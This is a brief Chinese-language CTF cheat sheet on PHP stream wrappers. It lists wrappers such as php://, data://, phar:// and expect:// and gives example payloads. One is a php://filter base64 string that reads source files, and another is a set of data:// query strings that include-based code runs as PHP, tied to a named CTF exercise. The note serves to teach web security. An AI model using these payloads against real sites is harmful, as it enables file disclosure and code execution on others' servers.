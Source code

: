 # 总览

1 file:// — 访问本地文件系统
2 http:// — 访问 HTTP(s) 网址
3 ftp:// — 访问 FTP(s) URLs
4 php:// — 访问各个输入/输出流（I/O streams）
5 zlib:// — 压缩流
6 data:// — 数据（RFC 2397）
7 glob:// — 查找匹配的文件路径模式
8 phar:// — PHP 归档
9 ssh2:// — Secure Shell 2
10 rar:// — RAR
11 ogg:// — 音频流
12 expect:// — 处理交互式的流



## filter:

主要用于任意文件读取,以及绕过死亡exit

php://filter/read=convert.base64-encode/resource=index.php   **//index.php将不被执行而是读出内容**
php://filter/resource=index.php     **//index.php将被当做php文件执行**



## data:

可以让用户来控制输入流，当它与包含函数结合时，用户输入的data://流会被当作php文件执行。

<font color='orange'>可以用于写入文件,例题:buuctf-nizhuansiwei</font>

?text=data://text/plain,welcome to the zjctf

?text=data://text/plain;base64,d2VsY29tZSB0byB0aGUgempjdGY=  **//使用base64编码**







